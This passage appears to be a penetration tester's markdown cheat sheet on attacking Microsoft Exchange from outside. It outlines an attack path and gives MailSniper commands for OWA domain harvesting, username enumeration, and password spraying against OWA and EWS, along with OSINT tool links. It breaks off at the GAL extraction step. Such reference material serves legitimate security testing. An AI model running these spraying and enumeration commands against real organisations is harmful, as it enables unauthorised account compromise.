 ````
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/

[Relaying section](relaying.md)

## MS Exchange
- Outlook rules and Outlook Forms are synced to all clients with the mailbox active.
- Outlook Forms VBSCript engine is different then the VBA Macro script engine (So disabling macro's wont defend against it)

### Attacking externally
- Attah path could be: Reconnaissance --> OWA Discovery --> Internal Domain Discovery --> Naming scheme fuzzing --> Username enumeration --> Password discovery --> GAL Extraction --> More Password discovery --> 2fa bypass --> Remote Access through VPN/RDP / Malicious Outlook Rules or Forms / Internal Phishing

#### Collection of data (OSINT)
- Collect e-mail adresses, usernames, passwords, get the email/user account naming scheme with tools such as:
  - https://github.com/mschwager/fierce
  - https://www.elevenpaths.com/innovation-labs/technologies/foca
  - https://github.com/lanmaster53/recon-ng
  - https://github.com/leebaird/discover
  - https://github.com/laramies/theHarvester

#### Domain name discovery
- https://github.com/dafthack/MailSniper
```
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME>
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME> -OutFile <POTENTIAL_DOMAINS.TXT> -CompanyName "TARGET NAME"
```
- Internal Domain name may be found inside a SSL Certificate

#### Name scheme fuzzing
- Create a username list from the OSINT
- Could use https://github.com/dafthack/EmailAddressMangler to generate mangled username list
```
Invoke-EmailAddressMangler -FirstNamesList <TXT> -LastNameList <TXT> -AddresConvention fnln | Out-File -Encoding ascii possible-usernames.txt
```

- https://gist.github.com/superkojiman/11076951
```
/opt/namemash.py names.txt >> possible-usernames.txt
```

#### Username Enumeration
- https://github.com/dafthack/MailSniper
```
Invoke-UsernameHarvestOWA -Userlist possible-usernames.txt -ExchHostname <EXCH HOSTNAME> -DOMAIN <IDENTIFIED INTERNAL DOMAIN NAME> -OutFile domain_users.txt
```

#### Password discovery
- https://github.com/dafthack/MailSniper
```
Invoke-PasswordSprayOWA -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile ews-sprayed-creds.txt
```

#### Global Address List (GAL) Extraction
- https://els-cdn.content-api.ine.com/09f3f35f-6f69-4a9d-90be-d13046e692c0/index.html#
```
````